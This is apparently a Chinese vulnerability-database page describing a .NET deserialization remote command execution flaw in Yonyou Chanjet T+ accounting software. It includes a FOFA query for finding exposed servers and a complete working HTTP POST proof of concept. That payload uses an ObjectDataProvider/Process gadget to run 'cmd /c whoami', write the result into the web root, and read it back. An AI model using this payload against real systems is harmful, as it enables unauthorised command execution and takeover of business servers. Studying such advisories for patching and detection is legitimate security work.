



用友 畅捷通T+ GetStoreWarehouseByStore 远程命令执行漏洞¶
漏洞描述¶
用友 畅捷通T+ GetStoreWarehouseByStore 存在 .net反序列化漏洞，导致远程命令执行，控制服务器
漏洞影响¶
用友 畅捷通T+
网络测绘¶
app="畅捷通-TPlus"
漏洞复现¶
登录页面

验证POC
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F
Connection: close
Content-Length: 668
X-Ajaxpro-Method: GetStoreWarehouseByStore
Accept-Encoding: gzip
{
"storeID":{
"__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
"MethodName":"Start",
"ObjectInstance":{
"__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
"StartInfo":{
"__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
"FileName":"cmd",
"Arguments":"/c whoami > C:/Progra~2/Chanjet/TPlusStd/WebSite/2RUsL6jgx9sGX4GItQBcVfxarBM.txt"
}
}
}
}

/tplus/xxx.txt
